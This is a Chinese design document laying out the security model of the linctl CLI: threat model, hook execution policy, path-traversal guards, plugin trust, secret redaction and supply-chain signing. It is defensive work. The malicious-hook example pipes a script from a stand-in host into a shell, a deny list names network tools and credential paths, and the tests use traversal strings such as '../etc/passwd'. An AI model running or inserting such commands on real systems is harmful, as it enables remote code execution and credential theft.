

# 15. 安全模型（Security Model）

> 本文档定义 linctl 的**威胁模型、安全边界、防御措施**。任何引入新攻击面的功能都应先回到本文档评估。

## 15.1 威胁模型（Threat Model）

### 15.1.1 资产与价值

linctl 接触的"资产"：

| 资产 | 价值 | 攻击后果 |
| --- | --- | --- |
| 用户的项目代码 | ⭐⭐⭐⭐⭐ | 被恶意修改/泄漏 |
| 用户的本地文件系统 | ⭐⭐⭐⭐ | 被越界写入/删除 |
| 用户的密钥/凭证（如 ~/.aws）| ⭐⭐⭐⭐⭐ | 泄漏到模板/日志 |
| 用户的网络（git push token）| ⭐⭐⭐⭐ | 被劫持上传 |
| 用户的命令执行能力 | ⭐⭐⭐⭐⭐ | 任意代码执行（RCE） |

### 15.1.2 信任边界



| 边界 | 信任级别 | 说明 |
| --- | --- | --- |
| 用户 | 完全信任 | linctl 服务于用户，假定用户意图正当 |
| linctl 二进制 + 内嵌模板 | 完全信任 | 来自官方发布，应有签名（goreleaser） |
| 用户的 linctl.yaml | **部分信任** | 用户写的，但可能源自不可信来源（如 GitHub fork） |
| 用户的 hooks 命令 | **不可信** | 可能是攻击者注入；必须经 **Hook 执行策略**（Hook Execution Policy）约束 |
| 第三方插件 | **受限信任** | 必须经用户显式安装；执行时限能力 |
| 网络（telemetry/plugin install） | **不可信** | 必须 HTTPS + 校验 |

> **术语澄清**：本文档过去使用「沙箱（sandbox）」一词描述 Hook 的安全约束。
> 由于这一约束本质上是「命令前缀白名单 + 用户确认 + CI 环境强制」，**并不是真正的进程级隔离**（如 namespace / seccomp / chroot），
> 为避免误导，全文统一改为「Hook 执行策略」（Hook Execution Policy）。详见 §15.2.1。

### 15.1.3 主要攻击向量

| # | 攻击向量 | 严重程度 | 缓解 |
| --- | --- | --- | --- |
| A1 | 恶意 `linctl.yaml` 中的 hook 命令执行任意代码 | ⚠️ Critical | Hook 执行策略（前缀白名单 + 用户 confirm + CI 强制 restricted） |
| A2 | 模板 SSTI（Server-Side Template Injection） | ⚠️ High | `Option("missingkey=error")` + 模板审查 |
| A3 | 路径越界写入（`Pair.Dst = "../etc/passwd"`） | ⚠️ High | 路径白名单 + filepath.Clean 检查 |
| A4 | 第三方插件提权 | ⚠️ High | 序列化 Mutator 限定类型；插件签名 |
| A5 | 敏感信息（author email）泄漏到日志/遥测 | ⚠️ Medium | 脱敏 + opt-in 遥测 |
| A6 | 通过 `linctl import` 反推时被恶意 PROJECT 文件 RCE | ⚠️ Medium | 仅解析，不执行 |
| A7 | 安装恶意插件（typo squatting） | ⚠️ Medium | 插件验证 + 显式确认 |
| A8 | 备份目录留下敏感信息 | ⚠️ Low | 用户可 `--no-backup` |
| A9 | tmp 文件竞争条件（race） | ⚠️ Low | 原子 rename + 0600 权限 |
| A10 | 二进制被替换（supply chain） | ⚠️ Critical | goreleaser sign + checksum |

## 15.2 防御措施（按攻击向量展开）

### 15.2.1 A1：Hook 执行策略（Hook Execution Policy）

> **为何不叫"沙箱"**：本机制依赖**命令前缀白名单 + 显式用户确认 + CI 环境强制 restricted**，
> 并不提供进程级隔离（无 namespace / seccomp / chroot / cgroup）。
> 真正的"沙箱"会带来用户对隔离强度的错误期望，因此本文档统一改用「Hook 执行策略」一词。
> 这与 `os.Exec` 默认共享父进程的 fd / cwd / env 一致，仅在 ABI 边界增加白名单 + 确认层。

**风险示例**：

```yaml
# 恶意 linctl.yaml
spec:
  hooks:
    postApply:
      - name: harmless
        run: curl evil.com/exfil.sh | sh   # 任意 RCE
```

**防御方案**：三级 **Hook 执行策略**。

#### 三级策略语义

> **默认策略说明**（详见 [META 决策书 §5.2](./META-fix-decisions-2026-04-25.md#52-默认-hook-策略歧义消除)）：
> - **本地默认**：`confirm`（每条 hook 独立确认，安全且不打断开发节奏）
> - **CI 强制**：`restricted`（不可被 flag/配置覆盖；详见下方 CI 强制规则）

| 级别 | 适用场景 | 行为 |
| --- | --- | --- |
| `restricted` | **CI 强制** / 共享环境 / 不熟悉的 `linctl.yaml` | 仅允许 allowlist 中的命令前缀（`gofumpt` / `go fmt` / `goimports` / `buf` / `make` / `protoc` / `wire` 等）。非白名单命令 → 直接拒绝。**无 prompt**。 |
| `confirm`（**本地默认**） | 本地常规开发 | 对 allowlist 命令直接执行；对 allowlist **之外**的命令逐条 prompt 用户确认。**`-y` 不能跳过该 prompt**。 |
| `unrestricted` | 仅本地高度信任的项目 | 执行任意 shell 命令；启动前必须二次确认；**CI 中强制拒绝并 `os.Exit(7)` 阻断**。 |

#### CI 环境强制规则

- 检测 `os.Getenv("CI") == "true"`（或 GitHub Actions / GitLab CI 等公认信号）→ **强制 `restricted`**
- 此判断**不可被 flag / 环境变量 / 配置覆盖**
- 违例时通过 `os.Exit(7)`（**安全策略违规**，详见 [03-cli-design.md §3.6 退出码 7](./03-cli-design.md#36-退出码-exit-codes) 与 [META §5.6](./META-fix-decisions-2026-04-25.md#56-ci-panic-退出码消歧)）阻断，**不再使用 `panic`**：
  - panic 默认退出码为 2，会与「码 2 = 配置错误」语义混淆
  - `os.Exit(7)` 配合结构化错误日志，便于 CI / runbook 精确诊断

#### `-y` 与 Hook 确认的关系

`-y` 仅作用于**文件冲突**的二次确认，**不能**跳过 Hook 执行策略中的 confirm。

| flag 组合 | 文件冲突 prompt | Hook prompt（`confirm` 级别） | Hook prompt（`unrestricted` 级别） |
| --- | --- | --- | --- |
| 无 flag | 提示 | 提示 | 启动前 1 次确认 |
| `-y` | 跳过 | **依然提示** | **依然必须确认** |
| `-y --hook-policy=restricted` | 跳过 | 不适用（直接拒绝非白名单） | N/A（CI 中强制） |

#### 实现示例

```go
// internal/security/hook_policy.go
package security

import (
    "context"
    "errors"
    "fmt"
    "os"
    "os/exec"
    "strings"
)

type Policy string

const (
    PolicyRestricted   Policy = "restricted"   // CI 默认，仅 allowlist
    PolicyConfirm      Policy = "confirm"      // 本地默认，allowlist 直行 + 其他 prompt
    PolicyUnrestricted Policy = "unrestricted" // 任意命令，必须二次确认，CI 禁用
)

type HookExecutor struct {
    policy          Policy
    allowedPrefixes []string
    deniedPatterns  []string
}

func NewExecutor(policy Policy) *HookExecutor {
    // CI 强制 restricted —— 不可被 flag / 配置覆盖
    // 决策见 META-fix-decisions §5.6：用 os.Exit(7) 而非 panic，避免与「码 2 配置错误」混淆
    if isCI() {
        if policy == PolicyUnrestricted {
            slog.Error("hook policy 'unrestricted' is forbidden in CI; refusing to run",
                "ci", os.Getenv("CI"),
                "policy", policy,
                "exitCode", 7,
                "reason", "security_policy_violation")
            os.Exit(7)
        }
        policy = PolicyRestricted
    }
    return &HookExecutor{
        policy: policy,
        allowedPrefixes: []string{
            "gofumpt", "gofmt", "goimports", "go fmt", "go vet", "go mod tidy", "go generate",
            "buf ", "protoc ", "wire ", "make ",
            "git status", "git add", "git diff",
        },
        deniedPatterns: []string{
            "sudo", "rm -rf", "curl ", "wget ", "nc ", "ncat ",
            "ssh ", "scp ", "rsync -e", "/etc/", "~/.ssh", "~/.aws",
            "$(", "`", "&&  rm", "; rm", "|sh", "| sh",
        },
    }
}

// Run 按当前策略执行 hook。
//
// autoApprove 来源于 CLI 的 `-y`，**仅作用于文件冲突**，不影响 hook 的 prompt。
func (e *HookExecutor) Run(ctx context.Context, hook Hook, autoApprove bool) error {
    cmd := strings.TrimSpace(hook.Run)

    for _, p := range e.deniedPatterns {
        if strings.Contains(cmd, p) {
            return fmt.Errorf("hook %q denied: contains forbidden pattern %q", hook.Name, p)
        }
    }

    inAllowlist := false
    for _, prefix := range e.allowedPrefixes {
        if strings.HasPrefix(cmd, prefix) {
            inAllowlist = true
            break
        }
    }

    switch e.policy {
    case PolicyRestricted:
        if !inAllowlist {
            return fmt.Errorf(
                "hook %q denied by policy=restricted: command must start with one of %v",
                hook.Name, e.allowedPrefixes,
            )
        }
        // restricted 级别下白名单命令直接执行，无 prompt
    case PolicyConfirm:
        if !inAllowlist {
            // -y 不能跳过 hook 的 confirm（独立于文件冲突的 -y）
            if !promptUser(fmt.Sprintf("Run hook %q: %s ? (hook confirm is independent of -y)", hook.Name, cmd)) {
                return fmt.Errorf("hook %q canceled by user", hook.Name)
            }
        }
    case PolicyUnrestricted:
        // 启动前已经做过一次全局确认；此处不再 prompt
        // unrestricted 模式仅本地，CI 已在 NewExecutor 通过 os.Exit(7) 阻断（详见 §15.2.1 / META §5.6）
    default:
        return fmt.Errorf("unknown hook policy: %q", e.policy)
    }

    parts := strings.Fields(cmd)
    c := exec.CommandContext(ctx, parts[0], parts[1:]...)
    c.Stdout = os.Stdout
    c.Stderr = os.Stderr
    return c.Run()
}

func isCI() bool {
    // 公认 CI 信号
    for _, key := range []string{"CI", "GITHUB_ACTIONS", "GITLAB_CI", "BUILDKITE", "CIRCLECI", "JENKINS_URL"} {
        if v := os.Getenv(key); v != "" && v != "false" {
            return true
        }
    }
    return false
}

var errCanceled = errors.New("canceled")
```

**用户体验**：

```bash
$ linctl apply              # policy=confirm（本地默认）

🚀 Applied 18 files

🪝 PostApply hooks (policy=confirm):
   ✔ tidy: go mod tidy   (allowlist, executed)
   ? Run hook "deploy": ./scripts/deploy.sh ?  [y/N]: y
     # ↑ -y 不能跳过该 prompt，因为 hook policy 独立
   ✔ deploy completed
```

**策略选择 flag**：

```bash
linctl apply                                  # policy=confirm（本地默认）
linctl apply --hook-policy=restricted         # 仅允许 allowlist
linctl apply --hook-policy=unrestricted       # 仅本地，启动前二次确认
linctl apply --hook-strategy=skip             # 跳过所有 hook（不执行任何命令）

# CI 中以下三条等价（policy 被强制为 restricted）：
CI=true linctl apply
CI=true linctl apply --hook-policy=confirm        # 仍被强制为 restricted
CI=true linctl apply --hook-policy=unrestricted   # os.Exit(7) 阻断（安全策略违规，详见 §15.2.1 / META §5.6）
```

> **`-y` 与 hook 的关系（再次强调）**：
> `linctl apply -y` 仅自动同意**文件冲突**的 prompt，不影响 hook 执行策略中的 prompt。
> 想跳过 hook 的逐条确认，必须显式 `--hook-policy=restricted`（仅允许 allowlist）或 `--hook-strategy=skip`（完全跳过）。

### 15.2.2 A2：模板 SSTI

**风险示例**：

模板里如果直接 dump 用户输入：

```go
// 危险模板
{{.UserInput}}  // 如果 UserInput 是 `{{...}}`，会被二次解析
```

**防御方案**：

1. **`missingkey=error` 严格模式**：访问不存在的字段直接报错。
2. **不从用户输入加载模板**：模板只能来自 `templates/` 内嵌或 `~/.linctl/templates/` （未来插件机制）。
3. **CI 检查**：`scripts/check-templates.sh` 扫描所有模板，禁止以下模式：
   - `tmpl.ParseFiles("/Users/...")` 绝对路径
   - `tmpl.Parse(string(userBytes))` 加载用户输入

```go
// internal/template/engine.go
tmpl := texttemplate.New(tplPath).
    Option("missingkey=error").  // 必须！
    Funcs(funcs)
```

### 15.2.3 A3：路径越界

**风险示例**：

```yaml
# 恶意 PROJECT 文件
metadata:
  name: ../../etc
```

**防御方案**：

```go
// internal/security/path.go
package security

import (
    "fmt"
    "path/filepath"
    "strings"
)

// SafeJoin 拼接路径，确保结果不越界 base。
// 拒绝：".." / 绝对路径 / Windows 系统路径 / 带 null 字符的路径
func SafeJoin(base, rel string) (string, error) {
    if strings.ContainsRune(rel, 0) {
        return "", fmt.Errorf("path contains null byte: %q", rel)
    }

    cleaned := filepath.Clean(rel)
    if filepath.IsAbs(cleaned) {
        return "", fmt.Errorf("absolute path not allowed: %q", rel)
    }

    if strings.HasPrefix(cleaned, "..") {
        return "", fmt.Errorf("path escapes base: %q", rel)
    }

    full := filepath.Join(base, cleaned)
    fullClean := filepath.Clean(full)
    baseClean := filepath.Clean(base)

    if !strings.HasPrefix(fullClean, baseClean+string(filepath.Separator)) && fullClean != baseClean {
        return "", fmt.Errorf("path escapes base: %q -> %q", rel, fullClean)
    }

    return fullClean, nil
}
```

所有 `FileManager.Write/Read` 内部都强制走 `SafeJoin`：

```go
func (m *FileManager) Write(path string, content []byte) error {
    abs, err := security.SafeJoin(m.workDir, path)
    if err != nil {
        return linctlerr.Wrap(linctlerr.ErrFileConflict, err, "unsafe path")
    }
    // ...
}
```

### 15.2.4 A4：插件信任边界

**风险示例**：

恶意 `linctl-plugin-evil` 插件被 `linctl plugin install` 安装后：

- 在 `Apply()` 返回的 Pair 中包含 `Dst: "/etc/passwd"`
- 在 `Mutators()` 中返回未知类型的 Mutator，企图触发反序列化漏洞

**防御方案**：

#### 1. **插件元数据签名（Phase 5+）**

```bash
# 插件作者
linctl-plugin-sentry --linctl-info --sign-key=<private.key>

# 用户安装时校验
linctl plugin install linctl-plugin-sentry
# → 自动校验签名 + 显示作者信息
```

#### 2. **限制 Pair 路径**

```go
// 主进程接收 plugin 返回的 Pair 时
for _, p := range pluginPairs {
    if _, err := security.SafeJoin(workDir, p.Dst); err != nil {
        return fmt.Errorf("plugin %q returned unsafe Pair.Dst %q: %w",
            pluginName, p.Dst, err)
    }
}
```

#### 3. **限制 Mutator 类型**

```go
// 仅允许已知的 Mutator 类型
var allowedMutatorTypes = map[string]MutatorFactory{
    "AddInterfaceMethod": func(m map[string]any) ASTMutator { ... },
    "AddStructMethod":    func(m map[string]any) ASTMutator { ... },
    "AddImport":          func(m map[string]any) ASTMutator { ... },
    "AddProtoRPC":        func(m map[string]any) ASTMutator { ... },
}

func DeserializeMutator(s SerializedMutator) (ASTMutator, error) {
    factory, ok := allowedMutatorTypes[s.Type]
    if !ok {
        return nil, fmt.Errorf("unknown mutator type %q from plugin", s.Type)
    }
    return factory(s.Payload), nil
}
```

#### 4. **首次安装确认**

```bash
$ linctl plugin install linctl-plugin-sentry

⚠️  About to install plugin from: github.com/sentry/linctl-plugin
   Author: Sentry Team
   Version: v1.2.0
   Permissions:
     - Read project files
     - Generate templates
     - Modify .go files via AST

   ? Trust this plugin? [y/N]: y
✔ Installed
```

### 15.2.5 A5：敏感信息脱敏

**保护清单**：

| 字段 | 是否脱敏 | 脱敏后 |
| --- | --- | --- |
| `metadata.author.email` | ✅ 日志 + 遥测 | `7***@gmail.com` |
| `metadata.author.name` | ✅ 仅遥测 | "***" |
| `metadata.module` | ❌ | 保留（公开信息） |
| git remote URL（如来自 doctor） | ✅ 遥测 | "***" |
| 文件路径（绝对路径） | ✅ 遥测 | "$HOME/..." |
| YAML 内容 | ✅ 遥测 | 不上报 |

```go
// internal/security/redact.go
package security

import (
    "regexp"
    "strings"
)

func MaskEmail(email string) string {
    parts := strings.Split(email, "@")
    if len(parts) != 2 {
        return "***"
    }
    if len(parts[0]) <= 1 {
        return "***@" + parts[1]
    }
    return string(parts[0][0]) + "***@" + parts[1]
}

func MaskPath(path string) string {
    home, _ := os.UserHomeDir()
    if home != "" && strings.HasPrefix(path, home) {
        return "$HOME" + path[len(home):]
    }
    return path
}

// MaskSecrets 探测并替换字符串中的常见敏感模式
var secretPatterns = []*regexp.Regexp{
    regexp.MustCompile(`AKIA[0-9A-Z]{16}`),                       // AWS access key
    regexp.MustCompile(`ghp_[a-zA-Z0-9]{36}`),                    // GitHub PAT
    regexp.MustCompile(`xox[baprs]-[a-zA-Z0-9-]+`),               // Slack token
    regexp.MustCompile(`(?i)(password|secret|token)\s*[:=]\s*\S+`),
}

func MaskSecrets(s string) string {
    for _, re := range secretPatterns {
        s = re.ReplaceAllString(s, "***REDACTED***")
    }
    return s
}
```

### 15.2.6 A6：`linctl import` 安全

`linctl import` 仅做"读 + 解析"，**不执行**任何文件内的代码：

```go
// internal/orchestrator/importer.go
func (i *Importer) Import(rootDir string) (*project.Project, error) {
    // 仅读 go.mod / 目录结构 / .proto 文件
    // 绝不调 `go build` / `go run`
    // 绝不 source / exec 任何文件
    ...
}
```

### 15.2.7 A7：插件 typo squatting

```bash
# 用户：linctl plugin install linctl-plugin-sentry
# 攻击者：linctl-plugin-sentryy（多一个 y）
```

**防御**：

1. 插件官方 registry（远期）：`linctl plugin install sentry` → 查 registry 而不是直接 `go install`
2. 显式信任：`linctl plugin install --untrusted linctl-plugin-sentry` 才允许装非 registry 插件

### 15.2.8 A8/A9/A10：其他

#### A8：备份目录敏感信息

- `.linctl/backups/` 自动加 `.gitignore`
- 备份文件权限 0600

#### A9：tmp 文件 race

- 写入流程：`os.CreateTemp(filepath.Dir(target), ".linctl-*")` → 写 → `chmod 0644` → `os.Rename`
- 不在 `/tmp` 写（避免符号链接攻击）

#### A10：二进制 supply chain

- goreleaser 配置 `--sign-checksums`
- 所有 release 附带 `linctl_v1.0.0_checksums.txt.sig`
- README 提供 GPG public key 校验步骤

```bash
# 用户校验
gpg --verify linctl_v1.0.0_checksums.txt.sig linctl_v1.0.0_checksums.txt
sha256sum -c linctl_v1.0.0_checksums.txt
```

## 15.3 安全测试

### 15.3.1 单测：每个攻击向量都有 case

```go
// internal/security/path_test.go
func TestSafeJoin_Attacks(t *testing.T) {
    base := "/tmp/work"
    cases := []struct {
        name    string
        rel     string
        wantErr bool
    }{
        {"normal", "internal/biz/biz.go", false},
        {"dot dot escape", "../etc/passwd", true},
        {"absolute", "/etc/passwd", true},
        {"null byte", "biz/biz\x00.go", true},
        {"deeply nested escape", "internal/biz/../../../etc/passwd", true},
        {"windows-style", `..\windows\system32\evil.dll`, true},
        {"empty", "", false},
        {"just dot", ".", false},
    }
    for _, tc := range cases {
        t.Run(tc.name, func(t *testing.T) {
            _, err := SafeJoin(base, tc.rel)
            if tc.wantErr {
                require.Error(t, err)
            } else {
                require.NoError(t, err)
            }
        })
    }
}
```

### 15.3.2 模糊测试

```go
// internal/security/path_fuzz_test.go
func FuzzSafeJoin(f *testing.F) {
    f.Add("internal/biz.go")
    f.Add("../etc/passwd")
    f.Fuzz(func(t *testing.T, rel string) {
        result, err := SafeJoin("/tmp/work", rel)
        if err == nil {
            // 不变量：成功的结果必须包含 base prefix
            require.True(t, strings.HasPrefix(result, "/tmp/work"),
                "SafeJoin succeeded but result %q escapes base", result)
        }
    })
}
```

### 15.3.3 静态扫描

CI 中跑 `gosec`：

```yaml
- name: gosec security scan
  uses: securego/gosec@v2.19.0   # 工具链 pin（per §10.7 / META §5.7）
  with:
    args: '-severity medium ./...'
```

## 15.4 漏洞披露流程

如果用户/研究者发现安全漏洞：

1. **不要公开 issue**
2. 邮件 `security@linctl.dev` 报告（含 PoC）
3. Maintainer 在 5 工作日内确认 + 制定修复计划
4. 修复 + 发布 patch 版本
5. 公开披露（CVE 编号 + advisory）

文档化：`SECURITY.md`（仓库根，参考 [GitHub Security Policy](https://docs.github.com/en/code-security/getting-started/adding-a-security-policy-to-your-repository)）。

## 15.5 与同类工具的对比

| 维度 | osbuilder | linctl |
| --- | --- | --- |
| Hook 执行策略 | ❌ 任意 shell 执行 | ✅ 三级策略（restricted/confirm/unrestricted）+ CI 强制 restricted |
| 路径越界检查 | 部分（依赖 afero） | ✅ 强制 SafeJoin |
| 模板 SSTI 防护 | ⚠️ missingkey 默认 print | ✅ missingkey=error |
| 遥测 | ⚠️ opt-out（默认开） | ✅ opt-in（默认关） |
| 敏感信息脱敏 | ❌ | ✅ MaskEmail/MaskPath/MaskSecrets |
| 插件信任 | N/A | ✅ 限定 Mutator 类型 + 首次确认 |
| 二进制签名 | ❌ | ✅ goreleaser sign + checksum |

## 15.6 Open Questions

| 问题 | 待决议 |
| --- | --- |
| 是否引入 SBOM（Software Bill of Materials）发布？ | ✅ **v1.0 必备**：随 release 一起发布最小可行版（`syft packages dir:. -o spdx-json` 生成 SPDX，goreleaser 集成） |
| 是否支持 SLSA Level 3+ build provenance？ | **Phase 4 提供 SLSA Level 1**（GitHub Actions 自动生成 provenance attestation）；L3+ 远期评估 |
| Plugin 进程隔离用 WASM？ | Phase 5+ 评估；目前 stdio JSON-RPC + 类型限制足够。注意：这是真正的进程级隔离，与 Hook 执行策略不是同一回事 |
| 是否给 templates/ 内嵌签名校验？ | 不必（已在二进制内） |

### 15.6.1 SBOM / SLSA 落地路线图

| 项目 | 阶段 | 工具 | 备注 |
| --- | --- | --- | --- |
| **SBOM (SPDX JSON)** | **v1.0 必备** | `syft packages dir:. -o spdx-json=linctl_v1.0.0.spdx.json` | goreleaser 的 `sboms:` 配置自动生成，与 checksum/sig 同位置发布 |
| **SBOM (CycloneDX)** | v1.0 同期 | `syft ... -o cyclonedx-json` | 兼容企业扫描器（如 Snyk/Dependency-Track） |
| **SLSA Level 1** | **Phase 4** | `slsa-framework/slsa-github-generator` | GitHub Actions 生成 provenance；可证明二进制由本仓库特定 commit 构建 |
| **SLSA Level 2** | 远期 | 同上 + hosted runner 校验 | 需要受信构建平台 |
| **SLSA Level 3+** | 远期评估 | reproducible build + isolated builder | 需 reproducible Go build；Phase 5+ 再评估 |

> **v1.0 release artifact 清单**（minimum viable supply chain hygiene）：
>
> - `linctl_v1.0.0_<os>_<arch>.tar.gz`（二进制）
> - `linctl_v1.0.0_checksums.txt` + `.sig`（GPG 签名）
> - `linctl_v1.0.0.spdx.json`（SPDX SBOM）
> - `linctl_v1.0.0.cdx.json`（CycloneDX SBOM）

---

## 修订记录

| 日期 | 版本 | 变更 |
| --- | --- | --- |
| 2026-04-25 | 0.1 | 初始版本 |
| 2026-04-25 | 0.2 | 按 [META-fix-decisions-2026-04-25 §1.10 / §5.2 / §5.6](./META-fix-decisions-2026-04-25.md) 修订：(1) §15.1.2 / §15.2.1 删除旧用词，统一改为 **Hook 执行策略**（Hook Execution Policy），引入三级 `restricted` / `confirm` / `unrestricted`；(2) CI 强制 `restricted`，违例使用 `os.Exit(7)`（不再用 panic，避免与配置错误的退出码 2 混淆）；(3) 明确 `-y` 仅作用于文件冲突，不能跳过 hook confirm；(4) §15.6.1 SBOM 提至 v1.0 必备，SLSA L1 提至 Phase 4 |

---

下一步阅读：[06-codegen-pipeline.md §6.14](./06-codegen-pipeline.md#614-并发与一致性) （新增并发一致性章节）

---

_Last reviewed: 2026-04-25_
